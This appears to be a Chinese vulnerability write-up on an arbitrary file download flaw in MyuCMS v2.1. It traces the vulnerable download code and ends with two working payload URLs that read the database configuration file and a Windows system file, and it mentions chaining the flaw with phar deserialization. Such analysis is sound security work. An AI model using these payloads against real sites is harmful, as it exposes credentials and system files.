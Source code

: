 MyuCMS v2.1 前台任意文件下载
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。

[![img](./resource/MyuCMSv2.1前台任意文件下载/media/rId24.jpg)](https://pic.downk.cc/item/5e4266e52fb38b8c3c9e7e3d.jpg)

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
